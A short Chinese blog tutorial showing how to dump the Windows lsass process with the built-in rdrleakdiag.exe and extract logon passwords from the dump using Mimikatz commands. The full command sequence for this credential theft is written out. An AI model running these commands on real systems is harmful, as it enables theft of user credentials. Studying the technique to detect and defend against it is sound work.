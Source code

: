 ```yaml
---
layout: post
title: "使用 rdrleakdiag.exe 转储进程"
tags: [Process_Dump, Tricks]
comments: true
---
```


# rdrleakdiag.exe

最近在 Twitter 看到有安全研究员公示了一个用于进程转储的工具，且在 Windows 的多版本中属于系统自带的程序，如果目标不存在此程序，也可以上传执行，程序本身的目的是用于资源泄露诊断，但是现在可以利用它转储指定的进程，推主贴出了用于进程转储的参数；

![](https://xxxeyj.github.io/images/20-09-15_ONE.PNG)

在 Windows 10 操作系统共发现了四个  "rdrleakdiag.exe" 程序；

在这里我们以 " C:\\Windows\System32" 目录下的 "rdrleakdiag.exe" 用作测试，首先使用 cmd 命令查找 lsass 进程的 pid；

```cmd
tasklist /svc | findstr lsass
```

![](https://xxxeyj.github.io/images/20-09-15_TWO.PNG)

可以看到 lsass 的进程 pid 为 548；

使用如下命令转储进程；
```cmd
rdrleakdiag.exe /p 548 /o C:\Users\Anonymous\Desktop\ /fullmemdmp /wait 1
```
![](https://xxxeyj.github.io/images/20-09-15_THREE.PNG)

可以看到桌面上已经生成了两个文件，将其 dmp 拷贝至 Mimikatz 目录下，而后使用 Mimikatz 载入 dmp 文件，使用如下两条命令即可；
```mimikatz
sekurlsa::minidump minidump_548.dmp
sekurlsa::logonpasswords
```
![](https://xxxeyj.github.io/images/20-09-15_FOUR.PNG)

## Reference
https://twitter.com/0gtweet/status/1299071304805560321
